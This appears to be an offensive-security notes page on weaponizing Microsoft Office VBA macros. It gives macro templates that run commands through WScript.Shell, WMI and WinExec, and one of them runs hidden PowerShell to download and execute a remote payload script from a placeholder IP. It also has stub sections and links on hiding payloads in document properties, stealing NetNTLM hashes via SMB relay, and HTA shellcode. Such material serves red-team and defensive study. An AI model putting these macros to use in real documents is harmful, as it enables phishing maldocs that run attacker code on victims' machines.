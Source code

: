 # Microsoft Office Macros

> [!INFO] Limited String Characters
> VBA Macro has a 50 characters string limit so you have to concatenate it. Use [[Macro Formatting Scripts|scripts]] to split the chunks.

## 01 - Command Execution

### 1.1 - Windows Script Host

Simple command execution via concatenation.

```vb
Sub Payload()
	Dim objShell As Object
	Set objShell = CreateObject("WScript.Shell")
    Dim Str As String
    
    Str = Str + ""

	' CreateObject("WScript.Shell").Run "<commands>", 1, True
    objShell.Run Str, 1, True
End Sub
```

VBA specific command execution.

```vb
Public Function Payload() As Variant
    Dim WindowScriptHost As Object
    Set WindowScriptHost = VBA.CreateObject("WScript.Shell")
    Dim waitOnReturn As Boolean: waitOnReturn = True
    Dim windowStyle As Integer: windowStyle = 7
    WindowScriptHost.Run "<commands>", windowStyle, waitOnReturn
End Function
```

Control the execution asynchronously.

```vb
Sub Payload()
	Dim objShell As Object
	Set objShell = CreateObject("WScript.Shell")

	' If set to True it will execute the shell asynchronous and wait for it to finish
	' If set to False it will not wait for the execution process to finish if there's a next line
	objShell.Run "powershell.exe -Command ""IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/payload.ps1')""", 0, True

End Sub
```

### 1.2 - Windows Management Instrument (WMI)

```vb
Sub WMI_Execution()
    Set Wmi = GetObject("winmgmts:\\.\root\cimv2")
    Set Process = Wmi.Get("Win32_Process")
    Process.Create("<commands>")
End Sub
```

### 1.3 - WinAPI

```vb
Declare Function WinExec Lib "kernel32" ( _
     ByVal lpCmdLine As String, _
     ByVal nCmdShow As Long _
) As Long

Const SHOW_HIDE As Long = 0

Sub ExecuteFile()
     WinExec "C:\Windows\System32\notepad.exe", SHOW_HIDE
End Sub
```

## 02 - Payload Inside Document

TODO: Fill this info

Using **comments** in the **Properties** to include malware URL link to execute as shell via `rundll32.exe`

- [Malicious DLL Infection Through Metasploit SMB Exploit](https://www.drchaos.com/post/malicious-dll-infection-thru-metasploit-smb-exploit)

- [The Art of Creating backdoors and Exploits with Metasploit (Duplicate)](https://www.drchaos.com/post/the-art-of-creating-backdoors-and-exploits-with-metasploit)

- [Bank Security: MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

## 03 - Harvest SMB Credentials

TODO: Demonstrate as many examples to fetch credentials using SMB relay via Responder

Refer to **Client-Side Attacks** subsection under [[02 - Responder|Responder]].

Refer to **Client-Side Attacks** subsection under [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit]].

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

- [n00py: Phishing with Maldocs](https://www.n00py.io/2017/04/phishing-with-maldocs/)

## 04 - HTA

TODO: Fill this info

---
## References

### Backlinks

- [[Document Templates]]

### MalAPI

- [MalAPI: WinExec](https://malapi.io/winapi/WinExec)

### Cocomelonc

- [Cocomelonc: Leveraging Office macros for malware](https://cocomelonc.github.io/malware/2025/07/01/malware-tricks-48.html)

### mgeeky

- [mgeeky: Backdooring Office Structures. Part 1: The Oldschool](https://mgeeky.tech/backdooring-office-structures-part-1-oldschool/)

- [mgeeky: Backdooring Office Structures. Part 2: Payload Crumbs In Custom Parts](https://mgeeky.tech/payload-crumbs-in-custom-parts/)

### Offensive Security

- [Offensive Security: Weaponizing and Abusing Hidden Functionalities Contained in Office Document Properties](https://www.offsec.com/blog/macro-weaponization/)

### Denwp

- [Denwp: From Base64 to Reverse Shell - Unpacking Malware from a Word Document](https://denwp.com/macro-word-document/)

### Sevagas

- [sevagas: Advanced_Initial_access_in_2024_OffensiveX](https://github.com/sevagas/Advanced_Initial_access_in_2024_OffensiveX/blob/main/breach_the_gates_extended.pdf)

### War Room

- [War Room: Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

### nicholasmckinney

- [nicholasmckinney: Shellcode Execution Via HTA](https://gist.github.com/nicholasmckinney/e90e47e0545430656bdcca5544d6b4fc)